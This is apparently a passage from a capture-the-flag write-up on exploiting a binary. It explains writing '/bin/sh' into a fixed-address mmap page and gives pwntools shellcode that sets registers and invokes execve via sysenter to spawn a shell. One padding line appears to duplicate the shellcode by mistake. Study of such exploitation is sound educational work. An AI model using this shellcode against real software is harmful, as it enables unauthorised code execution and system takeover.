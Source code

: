 using this we can directly write `/bin/sh` to the `mmap` page at a certain offset, and because the address is hardcoded, we can always infer where the string will be located. Also since the address is 32 bit in size, this should cause no type mismatch.&#x20;

```python
shellcode = b''
shellcode += b'\x90' * 8

shellcode += asm(f'''
    mov r10, rax
    add r10, 0x12d
                    
    mov r12, r10
    add r12, 0x100
    mov rbp, r12
''')

shellcode += asm(f'''
    mov rbx, r10
    xor ecx, ecx
    xor edx, edx
                    
    mov eax, 11
    sysenter
''')

shellcode += shellcode.ljust(0x100, b'\x90')
shellcode += b'/bin/sh\x00'
```
